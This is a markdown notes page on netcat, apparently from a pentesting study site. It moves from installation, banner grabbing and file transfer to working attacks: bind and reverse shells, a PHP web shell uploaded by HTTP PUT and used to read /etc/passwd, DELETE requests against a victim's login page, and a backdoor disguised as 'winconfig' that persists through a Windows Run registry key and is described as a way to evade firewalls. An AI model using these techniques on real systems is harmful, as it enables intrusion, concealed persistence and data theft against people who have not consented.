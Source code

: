 ```yaml
---
title: netcat
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - http
---
```


# netcat

## Installation

Preinstalled in kali. Netcat (often abbreviated to nc) is a computer networking utility for reading from and writing to network connections using TCP or UDP.

For windows: [https://nmap.org/ncat/](https://nmap.org/ncat/).

For linux: 

```bash
sudo apt install ncat
```


## Usage

It’s used for HTTP

```bash
nc <IP> <port> -flags
```

### Fingerprinting with netcat

```bash
nc  <IP> 80
HEAD / HTTP/1.0     
# And hit RETURN twice
```

## Netcat commands


### As a server

```bash
nc -lvp 8888
#-p: specify a port
#-l: to listening
#-v: verbosity
#-u: enforces udp connection
#-e: executes the given command
```

### As a client

```bash
nc -v <ip> <port>
```


## Transfer data

On the server side:

```bash
#data will be printed on screen
nc -lvp <port>  
```

On the client side:

```bash
echo “hello” | nc -v <ip> <port>
```



## Transfer data and save it in a file

On the server side: 

```bash
# Data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side:

```bash
echo “hello” | nc -v <ip> <port>
```

## Transfer file and save it 

On the server side: 

```bash
# Received data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side:

```bash
cat tobesentfiel.txt | nc -v <ip> <port>
```

## Netcat shell

On the server side:

```bash
nc -lvp <port> -e /bin/bash
```

On the client side:

```bash
nc -v <ip> <port>
```


## Some enumeration techniques for HTTP verbs

```bash
# Send a OPTIONS message with netcat
nc victim.target 80
OPTIONS / HTTP/1.0

```



## Some exploitation techniques for HTTP verbs


### DELETE attack


```bash
# General syntax for removing a resource from server using netcat
nc victim.site 80
DELETE /path/to/resource.txt HTTP/1.0


# Example for removing the login page of a site
nc victim.site 80
DELETE /login.php HTTP/1.0

```

### PUT attack: getting a shell

```bash
# Save for instance a php basic shell in a file (shell.php):

<?php 
if (isset($_GET[‘cmd’]))
{
	$cmd = $_GET[‘cmd’];
	echo ‘<pre>’;
	$result = shell_exec($cmd);
	echo $result;
	echo ‘</pre>’;
?>


# Count the size of the file
wc -m shell.php

# Send with netcat the HTTP verb message
nc victim.site 80
PUT /shell.php HTTP/1.0
Conten-type: text/html
Content-length: [number you got with wc -m payload]
 

# Run the exploit by typing in the browser:
http://victim.site/shell.php?cmd=cat+/etc/passwd
```

## Backdoors with netcat

### The attacker initiates the connection

**In the victim machine**: If windows, get the ncat.exe executable file, rename it to something else such as winconfig and we write in command line:

```
wincofig -l -p <port> -e cmd.exe
# Example: wincofig -l -p 5555 -e cmd.exe
```

**In the attacker machine**:

```
ncat <victim IP address> <port specified>
# Example: ncat 192.168.0.40 5555
```

### The victim initiates the connection

Great to avoid firewalls!!!

**In the victim machine**: If windows, get the ncat.exe executable file, rename it to something else such as winconfig and we write in command line:

```
winconfig -e cmd.exe <attacker IP> <port>
# Example: winconfig -e cmd.exe 192.168.1.40 5555
```
**In the attacker machine**:

```
ncat -l -p <port> -v
# Example: ncat -l -p 5555 -v
```

## Creating a registry in regedit

- In regedit, go to Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
- Right-Button > New > String value
- We name it exactly like the ncat.exe file (if we renamed it to winconfig, then we call this registry winconfig>
- We edit the registry and we add the path to the executable file and some commands  in the Value data:

```
“C:\Windows/System32\winconfig.exe <attacker IP> <port> -e cmd.exe”
# For instance: “C:\Windows/System32\winconfig.exe 192.168.1.50 5540 -e cmd.exe”
```
 
